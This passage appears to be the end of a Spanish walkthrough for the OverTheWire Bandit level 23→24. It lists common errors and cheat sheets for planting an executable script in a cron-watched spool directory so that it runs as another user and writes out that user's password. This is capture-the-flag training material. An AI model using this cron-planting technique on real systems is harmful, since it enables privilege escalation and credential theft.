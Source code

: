 ✅ Contraseña obtenida.

# Resumen
![Bandit Image](../../Imagenes/level-23-24-13.png)

---

## ⚠️ Errores comunes y explicaciones

- `Permission denied` al intentar entrar directamente a `/var/spool/bandit24/` → es normal, no tenemos permisos de lectura, solo podemos colocar ficheros.
    
- El script desaparece después de ejecutarse → el cronjob borra los archivos tras ejecutarlos, por eso conviene hacer copias en `/tmp`.
    

---

## 📑 Chuleta final (comandos rápidos)

`mktemp -d cd /tmp/tmp.ABCD1234 nano script.sh   # añadir payload chmod +x script.sh cp script.sh /var/spool/bandit24/example chmod +x /var/spool/bandit24/example watch -n 1 ls -l   # esperar ejecución cat bandit24_password.log`

---

## 🧾 Chuleta final

|Comando|Propósito|Uso mínimo|
|---|---|---|
|`cat /etc/cron.d/cronjob_bandit24`|Ver qué ejecuta cron|`cat /etc/cron.d/cronjob_bandit24`|
|`cat /usr/bin/cronjob_bandit24.sh`|Entender la lógica|`cat /usr/bin/cronjob_bandit24.sh`|
|`mktemp -d`|Crear carpeta segura en `/tmp`|`dir=$(mktemp -d)`|
|`chmod o+wx DIR`|Permitir que `bandit24` escriba en tu `/tmp`|`chmod o+wx "$dir"`|
|`cp payload /var/spool/bandit24/NAME`|Plantar script|`cp "$dir/script.sh" /var/spool/bandit24/x`|
|`chmod +x /var/spool/bandit24/x`|Hacerlo ejecutable|`chmod +x /var/spool/bandit24/x`|
|`sleep 65`|Dar tiempo a cron|`sleep 65`|
|`cat "$dir/bandit24_password.log"`|Leer contraseña|`cat "$dir/bandit24_password.log"`|

---